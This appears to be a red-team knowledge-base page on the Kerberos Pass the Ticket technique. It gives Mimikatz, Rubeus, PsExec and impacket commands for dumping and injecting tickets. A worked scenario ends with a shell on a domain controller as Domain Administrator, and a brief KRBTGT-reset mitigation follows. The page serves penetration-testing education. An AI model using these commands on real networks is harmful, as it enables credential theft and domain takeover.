

# Pass the Ticket

**ATT\&CK ID:** [**T1550.003**](https://attack.mitre.org/techniques/T1550/003/)****

**Permissions Required: **<mark style="color:red;">**Administrator**</mark>** | **<mark style="color:green;">**User**</mark>

**Description**

Adversaries may "pass the ticket" using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for Valid Accounts are captured by OS Credential Dumping. A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.

A Silver Ticket can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).

A Golden Ticket can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. Pass the Hash) while also using the password hash to create a valid Kerberos ticket.

[\[Source\]](https://attack.mitre.org/techniques/T1550/003/)

## Techniques

A scenario is shown further down this document in order to expand on the techniques shown below.

### Mimikatz

**Github (Binary):** [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

**Github (PowerShell):** [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1)

```powershell
# Collect tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Inject ticket
Invoke-Mimikatz -Command '"kerberos::ptt <.kirbi file>"'

# spawn CMD with the injected ticket
Invoke-Mimikatz -Command '"misc::cmd"'
```

### Empire

```bash
# PowerShell
powershell/credentials/rubeus

# C#
csharp/GhostPack/Rubeus
```

### Rubeus

**GitHub (Binary):** [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

**GitHub (PowerShell):** [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Rubeus.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Rubeus.ps1)

```bash
# Collect tickets
.\Rubeus.exe dump /nowrap

# Monitor for new tickets
.\Rubeus.exe monitor /interval:5 /nowrap

# Inject ticket kirbi file
.\Rubeus.exe ptt /ticket:<.kirbi file>

# Inject ticket base64 blob
.\Rubeus.exe ptt /ticket:<Base64Blob>
```

### PsExec

```bash
# To be used after injecting ticket with either Rubeus or Mimikatz
.\PsExec.exe -accepteula \\<IP> cmd
```

## Scenario

**Description**

In the following scenario we have gained access to the member server _Srv01.security.local_. Here, we are looking for opportunities to escalate privilege and move laterally in the environment.

We are currently running in the context of a local administrator account on Srv01.security.local and will be used `Rubeus` to collect Kerberos tickets.

**Collection**

```bash
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap
```

Whilst monitoring for incoming tickets the Domain Administrator (Moe) connects to Srv01 over RDP. During this process Moe's Kerberos ticket is stored on Srv01 and collected by `Rubeus`.


`Rubeus` can then be used to inject the ticket into the current session.

```
.\Rubeus.exe ptt /ticket:<Base64Ticket>
```



**Exploitation**

After a successful import we can then run `PsExec` and execute in the context of Moe on the Domain Controller _DC01.Security.local_.

```bash
# Psexec
.\PsExec.exe -accepteula \\<IP/Hostname> cmd
```


We now have a command shell to the Domain Controller whilst working as the Domain Administrator.

## Using Kerberos tickets from Linux

<mark style="color:blue;">**Note:**</mark> <mark style="color:blue;"></mark><mark style="color:blue;"></mark> This section is a continuation on the above scenario.&#x20;

### RubeusToCcache

**GitHub:** [https://github.com/SolomonSklash/RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)

Kerberos tickets extracted from Windows needs to be converted to `.Ccache` format for use within Linux.&#x20;

```
python3 rubeustoccache.py <Base64Ticket> <Output.kirbi> <Output.ccache>
```

 (2) (1) (1).png>)

Export the ticket to the Kerberos environmental variable:

```
export KRB5CCNAME=ticket.ccache
```

### Exploit

Once exported we can use `impacket` with the `-k` and `-no-pass` parameter to execute commands on the target Domain Controller.

```
psexec.py security.local/moe@DC01.security.local -k -no-pass
smbexec.py security.local/moe@DC01.security.local -k -no-pass
wmiexec.py security.local/moe@DC01.security.local -k -no-pass
```

 (1).png>)

## Mitigation

To contain the impact of a previously generated golden ticket, reset the built-in KRBTGT account password twice, which will invalidate any existing golden tickets that have been created with the KRBTGT hash and other Kerberos tickets derived from it. For each domain, change the KRBTGT account password once, force replication, and then change the password a second time. Consider rotating the KRBTGT account password every 180 days.

## Further Reading

**How To Attack Kerberos 101:** [https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
